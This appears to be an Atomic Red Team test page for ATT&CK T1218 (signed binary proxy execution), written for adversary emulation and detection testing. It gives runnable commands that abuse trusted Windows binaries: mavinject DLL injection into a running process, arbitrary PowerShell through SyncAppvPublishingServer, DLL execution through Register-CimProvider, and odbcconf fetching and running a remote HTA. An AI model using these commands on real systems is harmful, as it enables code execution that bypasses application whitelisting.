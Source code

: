 # T1218 - Signed Binary Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1218)
<blockquote>Binaries signed with trusted digital certificates can execute on Windows systems protected by digital signature validation. Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files. This behavior may be abused by adversaries to execute malicious files that could bypass application whitelisting and signature validation on systems. This technique accounts for proxy execution methods that are not already accounted for within the existing techniques.<br/>  

### Mavinject.exe
Mavinject.exe is a Windows utility that allows for code execution. Mavinject can be used to input a DLL into a running process. (Citation: Twitter gN3mes1s Status Update MavInject32)

<code>"C:\Program Files\Common Files\microsoft shared\ClickToRun\MavInject32.exe" <PID> /INJECTRUNNING <PATH DLL></code>
<code>C:\Windows\system32\mavinject.exe <PID> /INJECTRUNNING <PATH DLL></code>

### SyncAppvPublishingServer.exe
SyncAppvPublishingServer.exe can be used to run powershell scripts without executing powershell.exe. (Citation: Twitter monoxgas Status Update SyncAppvPublishingServer)

Several others binaries exist that may be used to perform similar behavior. (Citation: GitHub Ultimate AppLocker Bypass List)

### Odbcconf.exe
Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.The utility can be misused to execute functionality equivalent to Regsvr32 with the REGSVR option to execute a DLL.
/s - silent /a - list an action
</blockquote>

## Atomic Tests

- [Atomic Test #1 - mavinject - Inject DLL into running process](#atomic-test-1---mavinject---inject-dll-into-running-process)

- [Atomic Test #2 - SyncAppvPublishingServer - Execute arbitrary PowerShell code](#atomic-test-2---syncappvpublishingserver---execute-arbitrary-powershell-code)

- [Atomic Test #3 - Register-CimProvider - Execute evil dll](#atomic-test-3---register-cimprovider---execute-evil-dll)

- [Atomic Test #4 - Odbcconf - Execute evil hta](#atomic-test-4---odbcconf---execute-evil-hta)


<br/>

## Atomic Test #1 - mavinject - Inject DLL into running process
Injects arbitrary DLL into running process specified by process ID. Requires Windows 10.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to inject | Path | C:\AtomicRedTeam\atomics\T1218\src\x64\T1218.dll|
| process_id | PID of process receiving injection | string | 1000|

#### Run it with `command_prompt`!
```
mavinject.exe #{process_id} /INJECTRUNNING #{dll_payload}
```
<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServer - Execute arbitrary PowerShell code
Executes arbitrary PowerShell code using SyncAppvPublishingServer.exe. Requires Windows 10.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| powershell_code | PowerShell code to execute | string | Start-Process calc.exe|

#### Run it with `command_prompt`!
```
SyncAppvPublishingServer.exe "n; #{powershell_code}"
```
<br/>
<br/>

## Atomic Test #3 - Register-CimProvider - Execute evil dll
Execute arbitrary dll. Requires at least Windows 8/2012. Also note this dll can be served up via SMB

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | C:\AtomicRedTeam\atomics\T1218\src\Win32\T1218-2.dll|

#### Run it with `command_prompt`!
```
C:\Windows\SysWow64\Register-CimProvider.exe -Path #{dll_payload}
```
<br/>
<br/>

## Atomic Test #4 - Odbcconf - Execute evil hta
Execute arbitrary hta. 

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hta_payload | HTA to execute | Path | https://github.com/BluePytools/atomic-red-team/edit/master/atomics/T1218/src/T1218.hta}|

#### Run it with `command_prompt`!
```
C:\>odbcconf /s /a {installdriver T1218|T1218=https://github.com/BluePytools/atomic-red-team/edit/master/atomics/T1218/src/T1218.hta}
```
<br/>
